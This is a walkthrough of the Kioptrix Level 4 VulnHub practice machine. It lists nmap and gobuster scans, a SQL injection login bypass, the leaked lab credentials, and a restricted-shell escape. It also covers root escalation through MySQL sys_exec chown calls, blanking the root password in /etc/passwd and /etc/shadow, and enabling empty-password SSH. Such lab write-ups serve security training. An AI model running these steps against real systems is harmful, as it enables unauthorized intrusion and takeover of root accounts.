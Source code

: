 ```yaml
---
layout: post
title: Kioptrix Level 4
---
```

[Kioptrix Level 4](https://www.vulnhub.com/entry/kioptrix-level-13-4%2C25/)

## Setup

Download .rar file and extract

Create new virtual machine and go to VM > Settings > Hard Disk > Remove

Add > Hard Disk > SCSI > Use exisiting > Kioptrix.vmdk file

Set both local machine and target to NAT and restart them both and you should be able to find the target IP

## Find IP of box
Our IP: x.x.x.146

`nmap -sP <LHOST>/24`

Kioptrix is running x.x.x.151

## Init NMap Scan

`nmap -sC -sV -oA nmap x.x.x.151`

 - Default Scripts
 - Service Detection
 - Output all formats
 
 ![Initial NMap Scan](/images/KioptrixL4/Nmap1.JPG)
 
 There are 4 ports open: 22 (ssh), 80 (http), 139 (samba), 445 (samba)
 
 ## HTTP
 ### Gobuster
 
 `gobuster dir -u http://x.x.x.151 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -o gobuster.txt -x php,html,txt,xml`

![Initial Gobuster Scan](/images/KioptrixL4/Gobuster1.JPG)

Looks like we have a couple usernames in john and robert so when we open the webpage, we see a login and can enter john as the username and test as the password which just re-directs to a checklogin.php page

### SQLi

Enter john as the username and `' or '1' = '1` which displays john's actual credentials

We can do the same for robert.

## SSH

ssh as john : MyNameIsJohn
or ssh as robert : ADGAdsafdfwt4gadfga==

Entering most commands tells us we will be kicked out if we tryit again

We can find our allowed commands by typing `help` or `?

We can use echo so if we enter `echo os.system('/bin/bash')` we can upgrade the shell to use more commands

## Priv Esc

Uploaded `linpeas.sh` using a python3 web server and to shows that mysql may be an attack vector

`mysql -u root -h localhost`

`SELECT sys_exec('chown john.john /etc/shadow');`

`SELECT sys_exec('chown john.john /etc/passwd');`

`SELECT sys_exec('chown -R john.john /root');`

Exit and cd /root where we can `cat congrats.txt`

However, we're not actually root yet, jsut able to read the file

`vim /etc/passwd` and remove the x is the root line --> root::0:0:root:/root:/bin/bash

`vim /etc/shadow` and change the root line to --> root::::::::

`mysql -u root -h localhost`

`SELECT sys_exec('chown -R john.john /etc/ssh');`

vim /etc/ssh/sshd_config and change PermitEmptyPasswords to yes and change UsePAM to no

`mysql -u root -h localhost`

`SELECT sys_exec(‘reboot’);`

This will exit the ssh session and when it does, you can do `ssh root@x.x.x.151` which logs you in as root
